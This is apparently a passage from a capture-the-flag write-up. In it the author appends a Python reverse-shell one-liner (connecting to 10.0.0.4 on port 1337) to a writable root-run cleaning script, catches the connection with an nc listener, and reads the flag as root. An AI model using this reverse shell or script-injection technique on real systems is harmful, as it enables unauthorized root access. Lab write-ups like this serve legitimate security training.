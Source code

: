 I decided to try and put into that script a Python reverse shell snippet, that will give us back a root shell. 

{% highlight text %}
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.0.4\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" >> CleaningScript.sh   
cat CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

Great, now let's set up a listener and wait for the new run of the script. 

{% highlight text %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.17: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.17] 57190
sh: no job control in this shell
sh-4.2# whoami
whoami
root


sh-4.2# cat flag.txt	
cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs 
{% endhighlight %}